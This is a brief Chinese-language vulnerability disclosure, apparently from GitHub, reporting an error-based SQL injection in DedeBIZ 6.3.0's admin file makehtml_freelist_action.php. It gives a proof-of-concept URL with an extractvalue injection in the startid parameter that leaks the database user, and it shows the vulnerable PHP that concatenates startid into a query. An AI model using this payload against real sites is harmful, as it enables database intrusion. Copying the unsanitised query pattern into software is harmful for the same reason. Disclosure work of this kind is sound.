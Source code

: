 # DedeBIZ 6.3.0  /admin/makehtml_freelist_action.php 存在报错型 SQL 注入漏洞

## 介绍

DedeBIZ 6.3.0 在 /admin/makehtml_freelist_action.php 对前端传入数据校验不全导致出现报错型 SQLI 漏洞, 对应源码可以去往官网下载 : https://www.dedebiz.com/download

## 验证

搭建环境并访问管理员后台, 访问 url  地址

```
http://IP/admin/makehtml_freelist_action.php?maxpagesize=30&startid=extractvalue(1,concat(0x7e,(select+user()),0x7e))&%19&pageno=1
```

![image-20240107173752957](./assets/image-20240107173752957.png)

对应的源码

```php
require_once(DEDEINC."/archive/freelist.class.php");
if (empty($startid)) $startid = 0;
$ci = " aid >= $startid ";
if (!empty($endid) && $endid >= $startid) {
    $ci .= " And aid <= $endid ";
}
header("Content-Type:text/html; charset={$cfg_soft_lang}");
$dsql->SetQuery("SELECT aid FROM `#@__freelist` WHERE $ci");
$dsql->Execute();
```

